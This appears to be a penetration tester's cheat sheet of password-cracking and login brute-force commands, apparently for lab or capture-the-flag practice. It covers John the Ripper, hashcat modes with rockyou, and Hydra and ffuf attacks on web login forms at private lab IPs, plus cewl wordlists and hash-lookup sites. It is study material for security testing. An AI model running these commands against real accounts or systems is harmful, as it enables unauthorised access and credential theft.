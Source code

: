 ```
/usr/share/john/ssh2john.py key > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
gpg2john .keys > gpg.john (PGP keys)

cewl -d 2 -m 5 -w docswords.txt http://10.10.10.10
-d depth
-m minimum word length
-w output file
--lowercase lowercase all parsed words (optional)
```

// For removing duplications in wordlist<br/>
```
cat wordlist.txt| sort | uniq > new_word.txt
```
## Hydra brute force
Find mode if you forget: hashcat --help | grep -i "Kerberos"<br/>
Check type: http-post-form? ssh? etc<br/>
hashcat -m 0 'hash$' /home/kali/Desktop/rockyou.txt // MD5 raw<br/>
hashcat -m 1800 'hash\$' /home/kali/Desktop/rockyou.txt // sha512crypt<br/>
hashcat -m 1600 'hash\$' /home/kali/Desktop/rockyou.txt // MD5(APR)<br/>
hashcat -m 1500 'hash\$' /home/kali/Desktop/rockyou.txt // DES(Unix), Traditional DES, DEScrypt<br/>
hashcat -m 500 'hash\$' /home/kali/Desktop/rockyou.txt // MD5crypt, MD5 (Unix)<br/>
hashcat -m 400 'hash\$' /home/kali/Desktop/rockyou.txt // Wordpress<br/>
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule<br/>
--potfile-disable to ignore potfile, if hashcat shows HEX[] strings as result, you may need to use --outfile-autohex-disable <br/>
Some login forms use simple base64<br/>
Try this:
```bash
hydra -I -f -L custom-wordlist.txt -P custom-wordlist.txt 'http-post-form://192.168.233.61:8081/service/rapture/session:username=^USER64^&password=^PASS64^:C=/:F=403'
```
-l user -P wordlist <br/>
-t 4<br/>
-V verbose<br/>
-s <br/>
```
hydra -l user -P /usr/share/wordlists/rockyou.txt 10.129.18.249 http-post-form "/tiny/tinyfilemanager.php:fm_usr=^USER^&fm_pwd=^PASS^:Invalid Username or Password"
```
Output grepping:
```
grep "password: " validpasswords.txt | awk '{print $7}' >> passwords.txt
```
ffuf login brute force:
```
ffuf -request requests.txt -request-proto http -mode clusterbomb -w passwords.txt:FUZZ -mc 200
```
Brute Force too long? Try this! <br/>
```
cewl http://dc-2 -m 5 -w cewl.txt 2>/dev/null
username-anarchy --input-file users.txt --select-format first,flast,first.last,firstl > unames.txt
```
## Online tools
https://crackstation.net/ <br/>
LM, NTLM, md2, md4, md5, md5(md5_hex), md5-half, sha1, sha224, sha256, sha384, sha512, ripeMD160, whirlpool, MySQL 4.1+ (sha1(sha1_bin)), QubesV3.1BackupDefaults<br/>
https://www.dcode.fr/tools-list <br/>
MD4, MD5, RC4 Cipher, RSA Cipher, SHA-1, SHA-256, SHA-512, XOR Cipher<br/>
https://www.md5online.org/md5-decrypt.html (MD5)<br/>
https://products.aspose.app/email/viewer/msg (MSG reader)<br/>